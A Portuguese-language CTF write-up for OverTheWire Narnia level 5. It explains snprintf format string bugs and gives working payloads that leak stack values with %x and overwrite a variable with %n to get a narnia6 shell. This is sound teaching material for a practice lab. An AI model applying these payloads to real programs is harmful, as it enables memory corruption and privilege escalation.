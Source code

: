 ```yaml
---
layout: default
title: Level 5 - Format String Attack [OverTheWire CTF – Narnia]
date: 2017-05-31 17:14
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Narnia OverTheWire]
---
```

<ul>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">Level 0</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-narnia-write-up">Level 1</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">Level 2</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-3-overthewire-ctf-narnia-write-up">Level 3</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-4-overthewire-ctf-narnia-write-up">Level 4</a></li>
</ul>

Quem diria que é mais trabalhoso escrever writeup do que resolver os desafios? Mas continuo firme e forte na tentativa de documentar e ensinar um pouco que sei para os próximos 1337 afim de aprender.

Hora de ownar o <strong>narnia5</strong>.

<script src="https://gist.github.com/anonymous/f6fb1753c42a085a65b9cc1f21948bdf.js"></script>

O objetivo é claro, mudar o valor da variável <strong>i</strong> de 1 para 500. Hora de ver o código e criar teorias de como fazer isso.

<script src="https://gist.github.com/anonymous/d743b46c946ffe171ea2a2ca5aa04f6f.js"></script>

No inicio da função, <strong>i</strong> recebe o valor 1 e <strong>buffer</strong> é declarado como um vetor de char de tamanho 64. Depois, <a href="http://www.cplusplus.com/reference/cstdio/snprintf/">snprintf</a> manda para buffer 64 caracteres do argumento que passamos para o programa. É aqui que mora a vulnerabilidade que vai permitir mudar o valor de i.

snprintf recebe como argumentos: um ponteiro para o buffer onde será guardado o valor, o tamanho máximo de bytes que será copiado para o buffer e uma string (também podem haver argumentos opcionais). Se a função for chamada desta forma: <em>snprintf(buffer, 100, "Sou uma %s", "string")</em>, irá salvar em buffer o valor <em>"Sou uma string"</em> porque substitui o <em>%s</em> pelo argumento seguinte, a palavra <em>"string"</em>. É tipo o que <a href="http://www.cplusplus.com/reference/cstdio/printf/">printf</a> faria, mas ao invés de imprimir na tela, salva o resultado em algum lugar.

Assim como os outros da família printf, snprintf quando usada de forma relapsa abre espaço para ataques de <a href="https://www.owasp.org/index.php/Format_string_attack">format string</a>.

Uma<em> format string </em>é uma string ASCII que pode conter texto e parâmetros de formatação.

```printf(Sua senha do facebook é %s, x41Ax41A)```

A tal <em>format string</em> seriam os argumentos para a função printf aí de cima. Você pode ver que, ao executar esta linha, a função espera uma string como argumento para substituir o identificador %s.

Há outros identificadores como %d para inteiros, %c para caracteres, %x para hexademical, %p para ponteiros, %n que te digo a utilidade depois...

No chall, a função está sendo chamada passando como argumento de formatação o que digitarmos:

```snprintf(buffer, sizeof buffer, argv[1])```

Ao invés do correto, que seria:

```snprintf(buffer, sizeof buffer, %s, argv[1])```

No primeiro caso, temos controle da string de formatação. Isto significa que inserir como argumento um "%s" fará com que snprintf tente imprimir uma string. Mesmo que essa string não exista.

```
narnia5@narnia:/narnia$ ./narnia5 %s
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒u^▒L9L$▒Av9▒D▒] (23)
i = 1 (0xffffd74c)
```

Consegue ver essa quantidade de lixo? Isso acontece porque, em uma chamada saudável para snprintf, por exemplo: <em>snprintf(buffer, 25, "%d %s", a, &amp;b)</em>  os dados ficariam organizados dessa forma:

```
(topo da stack)
Endereço_de_retorno -
endereço_de_b -
valor_de_a
...
(fundo da stack)
```

É na stack que snprintf espera que os valores ou endereço destes valores estejam. Assim, não importa se esses valores tenham ou não sido passados como argumento para a função, snprintf irá ler o que estiver na stack.

Há uma forma de ver esse mal comportamento na prática usando o chall. Ao passar argumentos suficientes, é possível ler o próprio argumento da stack.

```
narnia5@narnia:/narnia$ ./narnia5 AAAA.%x.%x.%x.%x.%x
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [AAAA.f7eb7fe6.ffffffff.ffffd71e.f7e2ec34.41414141] (49)
i = 1 (0xffffd73c)
```

Usei %x para imprimir os valores em hex e você pode ver que o quinto %x foi substituído pelo valor <em><a href="https://pt.wikipedia.org/wiki/ASCII">41414141</a></em>.

Bom, ler conteúdo arbitrário da memória têm suas <a href="https://security.stackexchange.com/questions/43489/can-i-read-write-canary-values-from-gs-register/43844#43844">utilidades</a>. Mas o objetivo é ganhar uma shell. E para isso acontecer, não é preciso ler e sim sobrescrever i.

É aí que entra o especificador %n. Ao contrário de todos outros, sua utilidade não é formatar para apresentar um valor e sim escrever.

O %n escreve, na variável que for especificada, o número de bytes que foram escritos antes dele.

```printf(12345%n, &amp;variavel)```

A linha de código acima, além de imprimir "<em>12345</em>", irá escrever o inteiro 5 em <em>variavel</em>.

O programa é amigável e ainda nos informa em que lugar da memória está guardado o valor da variável i. Tudo que é preciso é: explorar a format string para escrever 500 bytes e escrever %n no endereço de i.

Agora saindo da teoria para a prática.

Lembra como, após alguns endereços, se consegue imprimir o próprio valor inserido? É dessa forma que passamos o endereço de i.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%x%x%x%x%n &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp;'`
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒▒▒f7eb7746ffffffffffffd6bef7e2fc34] (36)
i = 36 (0xffffd6dc)
```

Uow, viu isso? Vamos por partes:

No começo do argumento venenoso que mandei (usei o python para escrever no formato que se deve mas, se simplesmente não entendeu o que fiz, tente ler os <a href="https://brerodrigues.github.io/category/CTFs">write-ups anteriores do narnia</a> que é onde explico mais cuidadosamente esses paranauê) temos <em>ff ff d6 dc</em>, o endereço de i.

Após o endereço, usei uns %x para sair puxando uns valores da stack até chegar no início do meu próprio argumento, que será <em>ff ff d6 dc</em>. E é ai que entra o %n, que vai alegremente escrever a quantidade de bytes já escritos em <em>ff ff d6 dc</em>.

Por esse motivo que i teve seu valor substituído por 36. Não é por coincidência que o tamanho de buffer também seja 36.

Agora se pode passar um argumento com 500 bytes e ver /bin/sh ser executado com privilégios de narnia6.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%-472s%x%x%x%n'`
Change i's value from 1 -500. GOOD
$ cat /etc/narnia_pass/narnia5
cat: /etc/narnia_pass/narnia5: Permission denied
$ whoami
narnia6
```

Nem precisa escrever na mão os 500. O <a href="https://stackoverflow.com/questions/276827/string-padding-in-c">%472s</a> faz o trabalho de preencher o buffer.

Esse desafio só arranha bem pouco a superfície que é o poder que se tem ao explorar uma falha em format strings. Ao contrário de stack overflows simples (sem nenhuma contramedida), que são raríssimos de se ver na prática hoje em dia, format strings ainda são exploradas atualmente. Mesmo que na maioria das vezes seja apenas como um "meio" para o exploit funcionar. O que quis dizer é que: se você for buscar conhecimento, vai encontrar altas maneiras extravagantes e quase mágicas de se usar uma falha desse tipo para vários fins. Cheque <a href="https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf">este PDF </a>se ficou curioso.
